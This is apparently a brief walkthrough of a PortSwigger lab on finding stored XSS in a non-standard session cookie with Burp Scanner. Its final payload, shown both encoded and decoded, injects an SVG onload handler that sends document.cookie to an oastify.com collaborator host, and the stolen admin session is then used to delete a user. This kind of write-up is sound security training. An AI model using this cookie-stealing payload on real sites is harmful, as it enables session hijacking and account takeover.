




# Scanning non-standard data structures
# Objective
This lab contains a vulnerability that is difficult to find manually. It is located in a non-standard data structure.\
To solve the lab, use Burp Scanner's Scan selected insertion point feature to identify the vulnerability, then manually exploit it and delete carlos.\
You can log in to your own account with the following credentials: `wiener:peter`

# Solution
## Analysis
||
|:--:| 
| *Non standard session cookie structure* |
||
| *Scan result for selected insertion point - first part of cookie* |
| *Detection of Stored XSS* |

## Exploitation

||
|:--:| 
| *Administrator's session cookie* |
||
| *Deletion of user carlos* |

Final payload:
```
Encoded: '%22%3e%3csvg%2fonload%3dfetch(%60%2f%2f<id>.oastify.com%2f%24%7bencodeURIComponent(document.cookie)%7d%60)%3e%3a2zrSOtTRthaWC4ZqzzEgvXTMxgJKiWZs
Decoded: '"><svg/onload=fetch(`//<id>.oastify.com/${encodeURIComponent(document.cookie)}`)>:2zrSOtTRthaWC4ZqzzEgvXTMxgJKiWZs
```